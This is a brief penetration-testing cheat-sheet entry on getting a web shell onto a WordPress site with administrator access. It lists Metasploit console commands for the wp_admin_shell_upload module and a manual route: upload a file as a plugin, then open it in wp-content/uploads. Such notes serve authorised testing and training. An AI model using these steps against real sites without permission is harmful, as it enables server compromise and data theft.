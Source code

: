 ```yaml
---
title: "WordPress Admin Shell Upload"
date: 2020-03-06T13:02:27+01:00
draft: false
weight: 60
---
```


Abuse the plugin function to upload a shell.

```
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > show targets
    ...targets...
msf exploit(wp_admin_shell_upload) > set TARGET < target-id >
msf exploit(wp_admin_shell_upload) > show options
    ...show and set options...
msf exploit(wp_admin_shell_upload) > exploit
```

or simply login, go the plugins, upload a file and go the the WP upload folder (wp-content/uploads)